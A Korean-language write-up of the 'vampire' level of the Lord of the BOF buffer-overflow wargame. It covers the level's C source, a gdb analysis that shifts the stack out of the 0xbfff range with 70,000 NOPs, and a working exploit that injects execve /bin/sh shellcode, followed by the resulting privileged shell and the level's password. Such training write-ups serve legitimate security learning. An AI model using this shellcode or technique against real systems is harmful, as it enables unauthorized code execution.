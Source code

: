 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2019-10-14
article_header:
  type: cover
  image:
    src: 
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

RET 주소의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많은 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.



```
[troll@localhost troll]$ ./aampire `python -c 'print "\x90"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*70000'`

릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜
Segmentation fault (core dumped)
```

```
[troll@localhost troll]$ gdb -c core -q
Core was generated by `./aampire 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜 릱릱릱릱릱릱릱릱릱릱'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfffff in ?? ()
(gdb) x/4x $esp
0xbffeeb50:     0x00000000      0xbffeeb94      0xbffeeba4      0x40013868
```

argv[2]에 NULL값을 70000개 넣었더니 esp값이 0xbffexxxx 영역을 가리키고 있는 것을 확인하였다.



```
(gdb) x/100x $esp
=====================================(생략)================================
0xbffeec80:     0x00000000      0x38366900      0x2f2e0036      0x706d6161
0xbffeec90:     0x00657269      0x90909090      0x90909090      0x90909090
0xbffeeca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecc0:     0xbfbfffff      0x90909000      0x90909090      0x90909090
0xbffeecd0:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
```

그리고 실제 Shell Code가 올라가는 주소는 `0xbffeeca0` 근처 인것도 확인하였다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e \x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xa0\xec\xfe\xbf"'` `python -c 'print "\x90"*70000'`
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?좎
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

-----

